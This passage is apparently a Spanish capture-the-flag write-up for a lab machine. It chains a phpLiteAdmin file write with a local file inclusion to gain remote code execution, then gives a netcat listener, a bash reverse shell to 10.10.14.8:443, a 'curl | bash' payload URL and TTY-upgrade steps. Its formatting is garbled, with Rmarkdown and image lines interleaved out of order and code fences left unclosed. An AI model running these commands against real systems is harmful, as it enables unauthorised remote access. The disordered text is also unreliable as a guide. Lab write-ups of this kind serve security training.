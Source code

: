    Si pinchamos el link de la hack.php database vemos que a sido creado en 
```bash
 /var/tmp/hack.php 
```


    knitr::include_graphics("images/phpliteadmin-create-table.png")
![hliteadmi-hack-h](/assets/images/phpliteadmin-hack-php.png) 
    ```

1. Entramos un comando PHP en la tabla

    ```{r, echo = FALSE, fig.cap="insert php command", out.width="90%"}
    knitr::include_graphics("images/phpliteadmin-insert-command.png")

![hliteadmi-create-table](/assets/images/phpliteadmin-create-table.png) 
1. y con el uso de la LFI miramos lo que passa

    ```{r, echo = FALSE, fig.cap="phpliteadmin RCE", out.width="90%"}
    knitr::include_graphics("images/phpliteadmin-rce.png")

![hliteadmi-isert-commad](/assets/images/phpliteadmin-insert-command.png) 
1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

    #!/bin/bash
![hliteadmi-rce](/assets/images/phpliteadmin-rce.png) 

    bash -i >& /dev/tcp/10.10.14.8/443 0>&1
    ```

1. Compartimos un servidor web con *python*

    ```bash
    python3 -m http.server 80
    ```

1. Lanzamos la reverse shell por la web

    ```bash
    10.10.10.43/department/manage.php?notes=files/ninevehNotes/../var/tmp/hack.php&cmd=curl -s 10.10.14.8|bash
    ```
    
ya hemos ganado accesso al sistema.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```
